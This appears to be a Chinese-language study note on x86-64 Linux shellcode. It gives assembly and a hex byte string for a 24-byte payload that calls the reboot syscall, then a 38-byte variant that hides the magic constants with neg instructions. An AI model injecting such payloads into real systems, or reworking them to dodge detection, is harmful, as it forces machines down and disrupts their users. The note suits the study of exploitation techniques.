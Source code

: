 #### 1.参考资料   24bytes

http://178.79.135.109/shellcode/files/shellcode-602.php     shell-storm

https://www.onitroad.com/jc/linux/man-pages/linux/man2/reboot.2.html   参数详情(可根据参数进行关机的其他操作)

![image-20220907153521600](6.shellcode.assets/image-20220907153521600.png)

![image-20220907153503120](6.shellcode.assets/image-20220907153503120.png)

```
int reboot(int magic, int magic2, int cmd, void *arg);
```

```
 section .text
        global _start
    _start:
    	xor		rdx,rdx
        add     rdx, 0x1234567
        mov     rsi, 0x28121969
        mov     rdi, 0xfee1dead
        mov     al,  0xa9
        syscall
```

```
\x48\x31\xd2\x48\x81\xc2\x67\x45\x23\x01\xbe\x69\x19\x12\x28\xbf\xad\xde\xe1\xfe\xb0\xa9\x0f\x05
```

#### 2.改38bytes

```
 section .text
        global _start
 
    _start:
    
        mov     rax,0xd7ede697  ;0x28121969
        neg 	rax
        mov		rsi,rax
        mov    rax,0x011e2153
        neg 	rax
        mov		rdi,rax
        
        xor		rdx,rdx
        add     rdx, 0x1234567
        xor 	rax,rax
        mov     al,  0xa9
        syscall   
```
